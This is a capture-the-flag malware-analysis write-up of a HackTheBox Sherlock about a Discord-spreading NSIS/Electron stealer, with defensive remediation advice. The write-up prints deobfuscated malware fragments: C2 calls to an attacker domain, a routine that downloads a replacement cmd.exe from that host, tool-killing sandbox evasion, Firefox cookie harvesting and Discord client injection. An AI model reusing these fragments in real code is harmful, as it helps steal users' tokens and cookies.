


# [Subatomic](https://app.hackthebox.com/sherlocks/Subatomic) - HackTheBox Sherlock Writeup

```
Sherlock    : Subatomic
Category    : Malware Analysis
Difficulty  : Medium
```

---

## Scenario

An employee at Forela reported that their Discord account had sent a suspicious
message to a friend without their knowledge:

> *"Hi! I've been working on a new game I think you may be interested in it. It
> combines a number of games we like to play together, check it out!"*

The link pointed to an installer, `nsis-installer.exe`. The victim had already
reset their Discord password, but the messages kept being sent, suggesting the
compromise lived somewhere deeper than the account itself. The task: reverse
the binary, identify the C2 infrastructure, and explain the persistence
mechanism well enough for Forela to clean it up for good.


## 1. Static Triage

### 1.1 Hashes

```
$ pehash -a nsis-installer.exe
md5:     85aea19a596f59d0dbf368f99be6a139
sha1:    9fd84c0780b6555cdeed499b30e5d67071998fbc
sha256:  7a95214e7077d7324c0e8dc7d20f2a4e625bc0ac7e14b1446e37c47dff7eeb5b
imphash: b34f154ec913d2d2c435cbd644e91687
```

### 1.2 Authenticode Signature

```
$ osslsigncode extract-signature -in nsis-installer.exe -out signature.der
$ strings -e l signature.der | grep -a -o "Windows.*"
Windows Update Assistant
```

The sample carries a digital signature whose `SpcSpOpusInfo` structure names
the program a generic-sounding name meant to blend in with legitimate Windows
binaries on a casual process listing review: **"Windows Update Assistant"**.

## 2. Unpacking the Installer

Current 7-Zip builds have dropped native NSIS support, so extraction required
a NSIS-aware fork ([`myfreeer/7z-build-nsis`](https://github.com/myfreeer/7z-build-nsis))
compiled locally:

```
$ 7zz x nsis-installer.exe -oextracted
```

### 2.1 Installer GUID

Next, extract the installer's unique build GUID:

```
$ grep -rEoa '\{?[0-9a-fA-F]{8}-([0-9a-fA-F]{4}-){3}[0-9a-fA-F]{12}\}?' extracted
extracted/[NSIS].nsi:cfbc383d-9aa0-5771-9485-7b806e8442d5
```

This GUID is unique to the build and is referenced throughout the installer's
NSIS script. It is useful as a build-specific IOC (indicator of compromise)
when pivoting through other samples or infrastructure tied to the same
campaign.

### 2.2 The Nested Electron Payload

Buried inside the NSIS plugin directory sat a second archive containing a
full Electron application masquerading as "SerenityTherapyInstaller":

```
$ 7zz x extracted/\$PLUGINSDIR/app-32.7z -oapp
$ npx --yes @electron/asar extract app/resources/app.asar app_src
$ ls app_src
app.js  node_modules  package.json
$ cat app_src/package.json
```
```json
{
  "name": "SerenityTherapyInstaller",
  "version": "1.0.0",
  "main": "app.js",
  "author": "SerenityTherapyInstaller Inc",
  "license": "ISC",
  "dependencies": {
    "@primno/dpapi": "1.1.1",
    "node-addon-api": "^7.0.0",
    "sqlite3": "^5.1.6",
    "systeminformation": "^5.21.22"
  }
}
```

The dependency list is already a strong indicator of intent before a single
line of `app.js` is read:

- **`@primno/dpapi`**: bindings for Windows DPAPI, the mechanism Chromium and
  Discord use to encrypt locally stored cookies and tokens. Its presence
  strongly suggests credential/token decryption.
- **`sqlite3`**: the format Firefox uses for its `cookies.sqlite` database.
- **`systeminformation`**: environment and hardware fingerprinting, commonly
  used for sandbox/VM detection.

## 3. Deobfuscating `app.js`

```
$ head -c 200 app_src/app.js
var _0x448105=_0x14c9;(function(_0x2f383b,_0x170714){var _0x5f100f=_0x14c9...
```

The file is wrapped in a self-defending obfuscator (string-array rotation,
control-flow flattening) that only reconstructs the real payload **at
runtime**, in memory. A static deobfuscation would have meant hand-unrolling
every decoder call. A dynamic approach was faster and more reliable:

1. `@primno/dpapi` is a native Windows addon and fails to load on Linux, so
   running the script under Node immediately throws on that `require()`.

   ```
   $ node --inspect-brk app_src/app.js
   Debugger listening on ws://127.0.0.1:9229/...
   ```

2. Open `chrome://inspect` in Chromium, attach to the remote target, and let
   the script run until it pauses on the missing native module.

   

3. Inspecting the **Call Stack** at the pause point shows an anonymous VM
   context sitting above the obfuscated entry point:

   ```
   (anonymous) (VM126:4)
   (anonymous) (app.js:1)
   ```

   `VM126` is the script the obfuscator's bootstrapper built and `eval`'d at
   runtime. It is plain, readable JavaScript. Saving it (`vm126.js`)
   exposes the malware's actual logic.

   

## 4. The Malware's Behavior

The rest can be answered by looking at `vm126.js`.

### 4.1 Command & Control

```js
const options = {
    api: 'https://illitmagnetic.site/api/',
    user_id: '6270048187',
    logout_discord: 'false'
};

...

const network = await fetch('https://ipinfo.io/json', {
    method: 'GET',
    headers: {
        'Content-Type': 'application/json'
    }

...

async function getDiscordTokens() {
    const request = await fetch(options.api + 'paths', {
        headers: { 'duvet_user': options.user_id }
    });
    ...
}
```

| Finding | Value |
|---|---|
| C2 domain | `illitmagnetic.site` |
| C2 base URL | `https://illitmagnetic.site/api/` |
| Victim IP lookup URL | `https://ipinfo.io/json` |
| Victim identifier header | `duvet_user` |

Every C2 request carries `duvet_user: <user_id>` as a header, letting the
operator track and target individual infected machines from a shared backend.

### 4.2 Anti-Analysis - VM Evasion

Besides the obfuscation, the malware also has countermeasures that check for
a virtual machine environment:

```js
function checkVm() {
    if (Math.round(totalmem() / (1024 * 1024 * 1024)) < 2) process.exit(1);
    if ([ 'bee7370c-8c0c-4', 'desktop-nakffmt', ..., 'archibaldpc', ... ]
        .includes(hostname().toLowerCase())) process.exit(1);

    const tasks = execSync('tasklist');
    [ 'wireshark', 'fiddler', 'ida64', 'ollydbg', 'x64dbg', 'pestudio',
      'vmwaretray', ..., 'vmwaretray', 'discordtokenprotector' ]
      .forEach(task => { if (tasks.includes(task)) execSync(`taskkill /f /im ${task}.exe`); });
}
```

Three layers of sandbox evasion:

- **RAM check**: exits if the machine reports under 2 GB of memory.
- **Hostname blocklist**: a hard-coded list of known sandbox/analysis VM
  hostnames.
- **Process blocklist**: kills known analysis and debugging tools
  (Wireshark, Fiddler, IDA, x64dbg, PEStudio, VM guest services) via
  `taskkill`. Notably `vmwaretray` appears **twice** in the list.

### 4.3 Shell Hijack

If `cmd.exe` is missing from its normal location (e.g. a stripped-down
sandbox), the malware fetches a replacement binary from the C2 and writes it
to **`%USERPROFILE%\Documents\cmd.exe`**:

```js
if (!existsSync('C:\\Windows\\system32\\cmd.exe')) {
    const response = await fetch(options.api + 'cmd-file', { headers: { duvet_user: options.user_id } });
    writeFileSync(join(process.env.USERPROFILE, 'Documents', 'cmd.exe'), Buffer.from(response.buffer));
    process.env.ComSpec = join(process.env.USERPROFILE, 'Documents', 'cmd.exe');
}
```

### 4.4 Browser Cookie Theft

```js
async function getFirefoxCookies(path) {
    const cookies = [];
    if(existsSync(path)) {
        try {
            const cookiesFile = execSync('where /r . cookies.sqlite', { cwd: path })?.toString();
```

`where /r . cookies.sqlite` is run from within each Firefox profile
directory to locate `cookies.sqlite`.

### 4.5 Discord Client Infection

```js
async function discordInjection() {
    [join(LOCALAPPDATA, 'Discord'), join(LOCALAPPDATA, 'DiscordCanary'), join(LOCALAPPDATA, 'DiscordPTB')]
      .forEach(dir => {
        const path = join(dir, <app-* folder>, 'modules', 'discord_desktop_core-1');
        const discord_index = execSync('where /r . index.js', { cwd: path });
        // patches discord_desktop_core-1/index.js
      });
}
```

This is the answer to Forela's original question, and the reason resetting
the Discord password didn't stop the messages. The malware locates the
**`discord_desktop_core-1`** module inside each installed Discord build and
patches **`index.js`**, the module Discord loads on every startup with full
access to its internal IPC and APIs. The infection lives in the Discord
client itself, not in the account session.

## Findings Summary

| # | Question | Answer |
|---|---|---|
| 1 | Imphash of the installer | `b34f154ec913d2d2c435cbd644e91687` |
| 2 | `SpcSpOpusInfo` program name | `Windows Update Assistant` |
| 3 | Unique install GUID | `cfbc383d-9aa0-5771-9485-7b806e8442d5` |
| 4 | `package.json` license | `ISC` |
| 5 | C2 domain | `illitmagnetic.site` |
| 6 | Public IP lookup URL | `https://ipinfo.io/json` |
| 7 | C2 base URL | `https://illitmagnetic.site/api/` |
| 8 | Header carrying `user_id` | `duvet_user` |
| 9 | Sandbox hostname starting with "arch" | `archibaldpc` |
| 10 | Process checked twice in `checkVm()` | `vmwaretray` |
| 11 | Dropped `cmd.exe` replacement path | `%USERPROFILE%\Documents\cmd.exe` |
| 12 | Command used to find Firefox cookies | `where /r . cookies.sqlite` |
| 13 | Infected Discord module / file | `discord_desktop_core-1`, `index.js` |

## Lessons Learned

**For defenders:**

- Full cleanup requires fully uninstalling and reinstalling Discord.
- Delete the dropped `%USERPROFILE%\Documents\cmd.exe`.
- Rotate the Discord account's credentials **and** invalidate existing
  sessions/tokens.
- Block `illitmagnetic.site` at the network egress level.

**What I learned**

- Chrome DevTools is great for deobfuscating JavaScript dynamically.

**Tools I used**
- `pehash`: Calculates PE metadata and the imphash of the installer
- `osslsigncode`: Extracts and inspects the Authenticode signature
- [`7z-build-nsis`](https://github.com/myfreeer/7z-build-nsis): NSIS-aware 7-Zip build, since mainline 7-Zip dropped NSIS support
- `@electron/asar` (npx): Unpacks the Electron `app.asar` archive
- Node.js `--inspect-brk` + Chrome DevTools: Dynamic deobfuscation of the payload